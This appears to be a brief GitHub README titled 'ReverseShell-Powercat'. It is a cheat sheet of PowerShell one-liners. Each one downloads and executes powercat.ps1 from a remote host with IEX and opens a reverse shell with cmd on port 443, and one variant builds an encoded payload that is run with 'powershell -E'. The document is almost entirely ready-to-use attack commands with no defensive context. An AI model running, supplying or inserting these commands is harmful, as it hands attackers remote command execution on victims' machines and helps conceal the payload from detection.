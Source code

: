 ## ReverseShell-Powercat

Reverse shell

	powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.46.2/powercat.ps1');powercat -c 192.168.46.2 -p 443 -e cmd"

Encoded shell

	powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.46.2/powercat.ps1');powercat -c 192.168.1.3 -p 443 -e cmd.exe -ge > encodedshell.ps1
	
	cat encodedshell.ps1 | clip
	
	powershell -E <PASTE>